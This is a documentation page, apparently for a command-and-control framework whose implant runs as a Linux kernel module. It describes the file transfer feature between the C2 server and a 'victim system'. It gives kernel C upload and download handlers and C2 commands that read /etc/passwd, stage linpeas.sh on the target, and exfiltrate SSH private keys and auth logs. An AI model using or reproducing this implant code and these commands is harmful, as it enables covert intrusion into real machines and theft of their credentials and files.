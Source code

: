 ```yaml
---
title: "File Transfer"
description: "Upload and download files between C2 server and victim system"
icon: "download"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 511
---
```


# File Transfer

Transfer files between the C2 server and victim system using direct content transmission.

## How It Works

**Upload**: C2 → Victim system  
**Download**: Victim system → C2

## Implementation

### Upload Handler
```c
static int handle_upload(const char *data)
{
    char *filename, *file_content, *separator;
    struct file *file;
    loff_t pos = 0;
    
    // Parse filename:content format
    separator = strchr(data, ':');
    *separator = '\0';
    filename = data;
    file_content = separator + 1;
    
    // Create and write file
    file = filp_open(filename, O_WRONLY | O_CREAT | O_TRUNC, 0644);
    kernel_write(file, file_content, content_length, &pos);
    filp_close(file, NULL);
    
    return send_success("File uploaded successfully");
}
```

### Download Handler
```c
static int handle_download(const char *data)
{
    struct file *file;
    loff_t file_size, pos = 0;
    char *file_content;
    
    // Open and read file
    file = filp_open(data, O_RDONLY, 0);
    file_size = i_size_read(file_inode(file));
    
    file_content = vmalloc(file_size + 1);
    kernel_read(file, file_content, file_size, &pos);
    filp_close(file, NULL);
    
    return send_result(file_content);
}
```

## Usage

### WebUI Interface
- **Upload Panel**: File selection and remote path specification
- **Download Panel**: File browser and batch downloads

### C2 Commands
```bash
# Upload files
upload Client-1 ./config.txt /etc/myapp/config.txt
upload Client-1 ./script.sh /tmp/script.sh

# Download files
download Client-1 /etc/passwd ./victim_passwd
download Client-1 /etc/hostname
```

## Examples

```bash
# System reconnaissance
download Client-1 /etc/passwd
download Client-1 /etc/hosts
download Client-1 /proc/version

# Deploy tools
upload Client-1 ./linpeas.sh /tmp/enum.sh
exec Client-1 chmod +x /tmp/enum.sh

# Exfiltrate data
download Client-1 /home/user/.ssh/id_rsa
download Client-1 /var/log/auth.log
```

## Technical Details

- **File size limit**: 10MB maximum transfer
- **Permissions**: Files created with 0644 permissions
- **Error handling**: Graceful failure on permission/space issues
